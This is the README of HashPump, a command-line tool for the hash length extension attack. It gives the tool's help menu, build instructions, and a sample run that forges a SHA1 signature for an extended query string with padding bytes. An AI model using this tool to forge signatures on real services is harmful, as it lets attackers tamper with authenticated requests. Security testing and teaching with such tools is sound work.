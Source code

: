 HashPump
========

A tool to exploit the hash length extension attack in various hashing algorithms

Currently supported algorithms: MD5, SHA1, SHA256, SHA512

Help Menu
=========

    ./HashPump -h
    HashPump [-h help] [-t test] [-s signature] [-d data] [-a additional] [-k keylength]
         HashPump generates strings to exploit signatures vulnerable to the Hash Length Extension Attack.
         -h --help          Display this message.
         -t --test          Run tests to verify each algorithm is operating properly.
         -s --signature     The signature from known message.
         -d --data          The data from the known message.
         -a --additional    The information you would like to add to the known message.
         -k --keylength     The length in bytes of the key being used to sign the original message with.
         Version 1.0 with MD5, SHA1, SHA256 and SHA512 support.
         <Developed by bwall(@botnet_hunter)>

Sample Output
=============

    ./HashPump -s 6d5f807e23db210bc254a28be2d6759a0f5f5d99 --data count=10\&lat=37.351\&user_id=1\&long=-119.827\&waffle=eggo -a \&waffle=liege -k 14
    0e41270260895979317fff3898ab85668953aaa2
    count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege

Compile
=======

    git clone https://github.com/cipherbytes9/HashPump.git
    sudo apt-get install g++ libssl-dev
    make
    sudo make install

apt-get and make install require root privileges to run correctly.  The actual requirement is for -lcrypto, so depending on your operating system, your dependencies may vary.
